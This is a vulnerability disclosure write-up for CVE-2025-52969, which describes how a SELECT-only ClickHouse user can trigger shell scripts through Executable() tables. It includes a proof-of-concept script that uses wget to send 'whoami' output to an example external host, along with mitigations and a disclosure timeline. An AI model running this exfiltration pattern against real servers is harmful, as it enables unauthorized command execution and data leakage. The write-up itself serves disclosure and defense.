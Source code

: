 ## ClickHouse Executable Table Abuse by Low Privilege User

#### CVE ID: [CVE-2025-52969](https://nvd.nist.gov/vuln/detail/CVE-2025-52969)
#### Date: 2025-06-19  
#### Author: Seth Kraft  
#### Vendor Homepage: https://clickhouse.com/  
#### Vendor Changelog: https://github.com/ClickHouse/ClickHouse/blob/master/CHANGELOG.md  
#### Software Link: https://github.com/ClickHouse/ClickHouse  
#### Version: 25.7.1.557 (official build)  
#### Tested On: ClickHouse 25.7.1 (default configuration, Ubuntu 24.04)
#### CWE: CWE-250 (Execution with Unnecessary Privileges)  
#### CVSS Base Score: 2.8 (Low)
#### Vector String: `CVSS:3.1/AV:L/AC:H/PR:L/UI:N/S:C/C:N/I:L/A:N` 
#### Type: Authenticated OS Command Execution via Executable Table
---

## Authorization
**For research and authorized testing only.** Please do not use against systems without permission.

The issue was reviewed by the ClickHouse team and explicitly approved public disclosure of this write-up.

---

## Summary

ClickHouse allows table definitions using the `Executable()` engine, which runs system-level commands on `SELECT`. 

A low-privileged user with only `SELECT` rights can trigger these commands if an `Executable()` table is pre-created by a higher-privileged user. 

This enables authenticated OS command execution resulting in a privilege escalation vector.

---
## Details

ClickHouse’s `Executable` table engine allows tables to be backed by the output of shell scripts. 

```sql
CREATE TABLE rce_test (
    output String
) ENGINE = Executable('/var/lib/clickhouse/user_scripts/leak.sh', 'TSV');
```

Each `SELECT` query against this table executes the referenced script on the server.

---

## Proof of Concept

#### 1. **Prepare Bash Script For Abuse**

As a privileged user, create a bash script in `/var/lib/clickhouse/user_scripts/` that will later be abused by a low privileged user.

##### Script Name: `leak.sh`
```bash
#!/bin/bash
wget -q http://example.com?data=$(whoami)
```
> Note: This script will leak the `whoami` result to an external host when executed.

---

#### 2. **Create Executable Table**

Create the following table in the database as a privileged user.  This table will later be abused by the low privileged user.

```sql
CREATE TABLE rce_test (
    output String
) ENGINE = Executable('/var/lib/clickhouse/user_scripts/leak.sh', 'TSV');
```

---

#### 3. **Create Low-Privileged User**

```sql
CREATE USER lowpriv IDENTIFIED BY 'p@ssw0rd';
GRANT SELECT ON *.* TO lowpriv;
```

#### 4. Verify Low Privilege User Permissions:

```sql
SHOW GRANTS FOR lowpriv;
```

Expected output:

```text
GRANT SELECT ON *.* TO lowpriv
```
![image](https://github.com/user-attachments/assets/a69ea771-8f46-4723-aad3-b0e9f5888ae7)

---

#### 4. **Trigger Execution as Low-Privileged User**

```bash
curl 'http://localhost:8123/?user=lowpriv&password=p%40ssw0rd&query=SELECT+*+FROM+rce_test;'
```
> Note: URL encoding was used due to a special character in the password field

The external host will receive a request — proving that `lowpriv` was able to trigger OS-level execution via `SELECT` query.
![Screenshot 2025-06-18 234909](https://github.com/user-attachments/assets/b65fc5a5-3bca-40a6-8a41-9c93d2458e8f)

---

### Impact

* **Vulnerability Type:** Execution with Unnecessary Privileges (CWE-250).
* **Who Is Affected:** Environments that use `Executable()` tables and allow `SELECT` access broadly (including BI/reporting users).
* **Impact:** Authenticated users with no command execution or write access can still leverage pre-created command definitions.

---

### Mitigation / Recommendation

* **Restrict access** to any `Executable()` tables via granular `GRANT` controls — avoid granting `SELECT` on these objects to untrusted users.
* **Avoid creating `Executable()` tables** that point to sensitive or impactful scripts unless absolutely necessary.
* **Monitor and audit** access to the `user_scripts` directory and `Executable()` table usage.
* Consider adding a **configuration flag or privilege check** in ClickHouse to restrict execution of `Executable()` tables to specific roles.

Until stricter controls are implemented upstream, the burden of protection falls on administrative hygiene and access control discipline.

---

## Disclosure Timeline

* **2025-06-19:** Researcher reported to ClickHouse via Github Security Report
* **2025-06-19:** ClickHouse dismissed the issue as intended behavior and confirmed that public disclosure was permitted
* **2025-06-19:** Researcher responded with technical rebuttal, but vendor reiterated dismissal
* **2025-06-19:** Researcher initiated public disclosure and requested CVE assignment
* **2025-06-23:** MITRE assigned [CVE-2025-52969](https://nvd.nist.gov/vuln/detail/CVE-2025-52969) with disputed tag
* **2025-06-23:** Researcher notified Clickhouse of CVE-2025-52969 assignment
* **2025-06-23:** ClickHouse confirmed a feature flag ticket was created to address this risk and improve security.
